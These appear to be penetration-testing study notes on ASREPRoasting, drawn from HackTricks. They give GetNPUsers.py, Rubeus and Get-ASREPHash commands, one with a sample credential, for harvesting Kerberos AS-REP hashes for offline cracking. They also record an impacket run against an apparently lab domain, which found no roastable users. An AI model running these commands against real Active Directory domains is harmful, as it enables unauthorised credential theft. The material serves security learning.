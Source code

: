 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Active Directory Methodology | ASREPRoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[**#Request AS_REP message**]

Using Linux:
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

Using Windows:
```shell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`impacket-GetNPUsers -usersfile ./domain_users.txt -dc-ip 192.168.56.103 'SOUPEDECODE.LOCAL/charlie:charlie'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User bmark0 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User otara1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kleo2 doesn't have UF_DONT_REQUIRE_PREAUTH set

[...]

[-] User caiden36 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User xbella37 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smark38 doesn't have UF_DONT_REQUIRE_PREAUTH set
```